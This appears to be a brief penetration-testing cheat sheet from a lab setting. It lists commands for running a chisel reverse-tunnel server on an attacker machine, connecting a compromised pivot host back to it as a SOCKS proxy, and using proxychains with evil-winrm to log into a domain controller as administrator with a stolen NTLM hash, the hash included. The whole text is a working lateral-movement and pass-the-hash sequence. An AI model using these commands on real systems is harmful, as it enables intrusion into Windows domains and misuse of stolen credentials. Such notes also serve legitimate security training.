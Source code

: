 ## Attacker Server
./chisel_1.9.1_linux_amd64 server -p 4444 --reverse

## Pivot Machine MS02
.\chisel.exe client 192.168.45.185:4444 R:socks

## Remote Connection to DC01 with stolen NTLM hash
proxychains evil-winrm -i 10.10.83.152 -u administrator -H 59b280ba707d22e3ef0aa587fc29ffe5

